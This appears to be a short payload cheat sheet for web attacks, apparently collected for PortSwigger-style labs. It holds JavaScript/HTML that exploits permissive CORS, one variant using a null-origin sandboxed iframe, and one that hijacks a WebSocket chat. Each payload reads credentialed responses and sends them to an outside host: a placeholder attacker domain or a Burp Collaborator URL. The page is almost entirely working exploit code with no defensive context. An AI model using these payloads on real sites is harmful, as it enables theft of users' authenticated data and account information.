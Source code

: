 # Cors
## Requests with Cookies
```html
<script>
function reqListener() {
location = '//<DOMAIN>/key='+this.responseText;
}

var req = new XMLHttpRequest();
req.onload = reqListener;
req.open('<METHOD>', '<URL>', true);
req.withCredentials = true;
req.send();
</script>
```

## Whitelists
**Note: The Origin header has nothing to do with non-controllable IP**
**Note: Still useful to check if server uses it**
### Null Origin
```html
<iframe sandbox="allow-scripts allow-top-navigation allow-forms"
src="data:text/html, <script>
function reqListener() {
location = '//<DOMAIN>/key='+this.responseText;
}

var req = new XMLHttpRequest();
req.onload = reqListener;
req.open('<METHOD>', '<URL>', true);
req.withCredentials = true;
req.send();
</script>"
/>
```

# WebSockets
```html
<script>
function reqListener(event) {
console.log(event.data);
fetch('https://z776gh5tgrwx8rt9ocpet25dj4pwdl.burpcollaborator.net/key',{method: 'POST', mode: 'no-cors', body: event.data});
}

var req = new WebSocket('wss://ac291f251ea833b7c0a02ef4000f00ef.web-security-academy.net/chat');
req.onopen = function() {
    req.send("READY");
  };
req.onmessage = reqListener;
</script>
```